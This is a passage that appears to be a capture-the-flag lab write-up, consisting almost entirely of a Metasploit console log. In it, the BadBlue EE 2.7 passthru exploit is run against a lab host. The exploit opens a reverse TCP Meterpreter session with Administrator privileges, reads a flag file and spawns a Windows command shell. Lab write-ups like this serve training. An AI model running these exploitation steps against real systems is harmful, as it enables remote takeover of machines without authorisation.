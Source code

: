 ```

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf5 exploit(windows/http/badblue_passthru) > setg RHOSTS 10.0.22.53
RHOSTS => 10.0.22.53
msf5 exploit(windows/http/badblue_passthru) > set target 
set target 0                            set target BadBlue\ 2.72b\ Universal    
set target 1                            set target BadBlue\ EE\ 2.7\ Universal  
msf5 exploit(windows/http/badblue_passthru) > set target BadBlue\ EE\ 2.7\ Universal 
target => BadBlue EE 2.7 Universal
msf5 exploit(windows/http/badblue_passthru) > exploit

[*] Started reverse TCP handler on 10.10.21.5:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (180291 bytes) to 10.0.22.53
[*] Meterpreter session 1 opened (10.10.21.5:4444 -> 10.0.22.53:49258) at 2023-03-02 15:56:04 +0530

meterpreter > 

```
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator

```

```

Retrieve the flag.

```
meterpreter > search -f flag.txt
Found 1 result...
    c:\flag.txt (32 bytes)
meterpreter > cat c:\\flag.txt
70a569da306697d64fc6c19afea37d94
```

或者

```
meterpreter > shell
Process 2100 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\BadBlue\EE>cd /
cd /

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of C:\
```